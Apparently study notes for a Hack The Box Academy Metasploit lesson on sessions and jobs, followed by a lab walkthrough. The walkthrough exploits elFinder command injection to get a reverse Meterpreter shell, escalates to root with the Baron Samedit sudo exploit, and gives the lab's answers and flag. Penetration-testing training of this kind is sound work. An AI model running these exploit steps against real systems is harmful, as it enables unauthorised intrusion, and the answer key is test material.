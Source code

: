 # Sessions
MSFconsole can manage multiple modules at the same time. This is one of the many reasons it provides the user with so much flexibility. This is done with the use of `Sessions`, which creates dedicated control interfaces for all of your deployed modules.

Once several sessions are created, we can switch between them and link a different module to one of the backgrounded sessions to run on it or turn them into jobs. Note that once a session is placed in the background, it will continue to run, and our connection to the target host will persist. Sessions can, however, die if something goes wrong during the payload runtime, causing the communication channel to tear down.
## Using Sessions
While running any available exploits or auxiliary modules in msfconsole, we can background the session as long as they form a channel of communication with the target host. This can be done either by pressing the `[CTRL] + [Z]` key combination or by typing the `background` command in the case of Meterpreter stages.

**Listing Active Sessions**
```
msf6 exploit(windows/smb/psexec_psh) > sessions
```
**Interacting with a Session**
You can use the sessions -i [no.] command to open up a specific session.
```
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
## Jobs
If, for example, we are running an active exploit under a specific port and need this port for a different module, we cannot simply terminate the session using `[CTRL] + [C]`. If we did that, we would see that the port would still be in use, affecting our use of the new module. So instead, we would need to use the `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

To list all running jobs, we can use the `jobs -l` command. To kill a specific job, look at the index no. of the job and use the `kill [index no.]` command. Use the `jobs -K` command to kill all running jobs.

When we run an exploit, we can run it as a job by typing `exploit -j`. Instead of just exploit or run, will "run it in the context of a job."
```
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

## Questions
1. The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application? **Answer: elfinder**
   - View the page source at http://10.129.203.52.
2. Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with? **Answer: www-data**
   - Use msfconsole and search for elfinder exploit modules: `search elfinder`
   - Use `exploit(linux/http/elfinder_archive_cmd_injection)` module and set the suitable `LHOST` and `RHOSTS`.
   - Run the exploit:
        ```
        [msf](Jobs:0 Agents:0) exploit(linux/http/elfinder_archive_cmd_injection) >> exploit
        ...
        (Meterpreter 1)(/var/www/html/files) > shell
        Process 1977 created.
        Channel 1 created.
        whoami
        www-data
        ```
3. The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer. **Answer: HTB{5e55ion5_4r3_sw33t}**
   - Still at the above meterpreter session, find the Sudo version and background that session to look for the suitable exploit:
        ```
        sudo -V
        Sudo version 1.8.31
        Sudoers policy plugin version 1.8.31
        Sudoers file grammar version 46
        Sudoers I/O plugin version 1.8.31
        exit
        ba(Meterpreter 1)(/var/www/html/files) > background
        [*] Backgrounding session 1...
        [msf](Jobs:0 Agents:1) exploit(linux/http/elfinder_archive_cmd_injection) >> search Sudo 
        ...
        63    \_ target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
        ...
        ```
   - Use that exploit and set the `LHOST` to our host IP and `SESSION` to the session of the background process:
        ```
        [msf](Jobs:0 Agents:1) exploit(linux/local/sudo_baron_samedit) >> sessions

        Active sessions
        ===============

        Id  Name  Type                   Information               Connection
        --  ----  ----                   -----------               ----------
        1         meterpreter x86/linux  www-data @ 10.129.203.52  10.10.14.80:4444 -> 10.129.203.52:49694 (10.129.203.52)

        [msf](Jobs:0 Agents:1) exploit(linux/local/sudo_baron_samedit) >> set LHOST 10.10.14.80
        LHOST => 10.10.14.80
        [msf](Jobs:0 Agents:1) exploit(linux/local/sudo_baron_samedit) >> set SESSION 1
        SESSION => 1
        [msf](Jobs:0 Agents:1) exploit(linux/local/sudo_baron_samedit) >> exploit
        ...
        [*] Meterpreter session 2 opened (10.10.14.80:4444 -> 10.129.203.52:49810) at 2025-10-01 22:20:58 -0500

        (Meterpreter 2)(/tmp) > shell
        Process 2236 created.
        Channel 1 created.
        whoami
        root
        find / -name "flag.txt"            
        /root/flag.txt
        cat /root/flag.txt
        HTB{5e55ion5_4r3_sw33t}
        ```